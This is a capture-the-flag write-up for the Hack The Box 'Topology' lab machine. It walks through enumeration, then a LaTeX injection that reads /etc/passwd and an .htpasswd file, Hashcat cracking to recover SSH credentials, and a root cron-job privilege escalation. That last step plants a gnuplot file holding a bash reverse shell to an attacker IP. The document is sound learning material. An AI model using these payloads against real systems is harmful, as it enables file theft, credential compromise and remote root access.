 # HTB - Topology

#### Ip: 10.129.158.218
#### Name: Topology
#### Rating: Easy

------------------------------------------------

![Topology.png](../assets/topology_assets/Topology.png)

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 5000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ sudo nmap -p- --min-rate 5000 -sC -sV 10.129.158.218
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-27 16:02 CST
Nmap scan report for 10.129.158.218
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.63 seconds
```

Looking at the site we find a page for a university mathematics department:

![htb_topology_site.png](../assets/topology_assets/htb_topology_site.png)

The site has a link for "LaTeX Equation Generator - create .PNGs of LaTeX equations in your browser" which attempts to forward to latex.topology.htb, so let's add that to `/etc/hosts`.

Let's also scan for more VHOSTS before enumerating this further:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ffuf -u http://topology.htb -H 'HOST: FUZZ.topology.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 1612 -mc all

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 1612
________________________________________________

[Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 76ms]
    * FUZZ: dev

[Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 73ms]
    * FUZZ: stats
```

Cool, two more VHOSTS, let's add these to `/etc/hosts` as well.

The dev page requires authentication, which we don't have yet, and the stats page seems to just offer server load stats, with no real information.

Now visiting the Latex site we find a LaTex Equation Generator:

![htb_topology_latex.png](../assets/topology_assets/htb_topology_latex.png)

Entering one of the site's examples we find:

![htb_topology_example.png](../assets/topology_assets/htb_topology_example.png)

Looking at the webpage root we find a few files we can download:

![htb_topology_index.png](../assets/topology_assets/htb_topology_index.png)

Checking out the header.tex file we find the site is using listings, which may give us access to other files:

![htb_topology_header.png](../assets/topology_assets/htb_topology_header.png)

### Exploitation

Researching more about this I find: https://ctan.org/pkg/listings?lang=en which mentions using `\lstinputlisting` for file reads.

But trying something like: `\lstinputlisting[/etc/passwd` continues to fail.

Heading over to trusty HackTricks and looking up LaTex injection we find a helpful note:

```
You might need to adjust injection with wrappers as [ or $.
```

So with these we can now wrap our command in `$` symbols like: `$\lstinputlisting{/etc/passwd}$` and successfully read the file:

![htb_topology_etc.png](../assets/topology_assets/htb_topology_etc.png)

Searching for interesting files, I finally find an `.htpasswd` file for the dev site discovered earlier:

![htb_topology_hash.png](../assets/topology_assets/htb_topology_hash.png)

Let's crack this using Hashcat:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
==========================================================================================================================================
* Device #1: pthread--0x000, 1403/2870 MB (512 MB allocatable), 1MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR) | FTP, HTTP, SMTP, LDAP Server

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

<SNIP>

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
```

Cool, we now have the credentials `vdaisley:calculus20`

We can use this to SSH in and grab the user.txt flag:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ssh vdaisley@10.129.158.218
```

![htb_topology_user.png](../assets/topology_assets/htb_topology_user.png)

### Privilege Escalation

Poking around the box we find a directory called gnuplot in `/opt`:

```
vdaisley@topology:~$ cd /opt
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ file gnuplot/
gnuplot/: directory
vdaisley@topology:/opt$ cd gnuplot/
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
```

According to http://www.gnuplot.info/:

```
Gnuplot is a portable command-line driven graphing utility for Linux, Windows, macOS, OS/2, VMS, and other platforms.
```

Loading Pspy64 to the target to view running cronjobs, we see several jobs run by root coming out of the gnuplot directory:

![htb_topology_cron.png](../assets/topology_assets/htb_topology_cron.png)


I'm particularly interested in the following cronjob:

```
/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
```

This folder is interesting because while we can't list files, we can write to it:

```
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
vdaisley@topology:/opt/gnuplot$ touch test.txt
vdaisley@topology:/opt/gnuplot$ echo "hi" > test.txt
vdaisley@topology:/opt/gnuplot$ cat test.txt
hi
vdaisley@topology:/opt/gnuplot$ ls -la
ls: cannot open directory '.': Permission denied
```

So because the cronjob above is using wildcards and executing with gnuplot any `.plt` files, let's create one called shell.plt which will be executed with root permissions when the job runs:

```
system "bash -c 'bash -i >& /dev/tcp/10.10.14.162/443 0>&1'"
```

![htb_tolology_shell.png](../assets/topology_assets/htb_tolology_shell.png)

Nice, we can now grab the final flag:

![htb_topology_root.png](../assets/topology_assets/htb_topology_root.png)

Thanks for following along!

-Ryan

-----------------------------------------
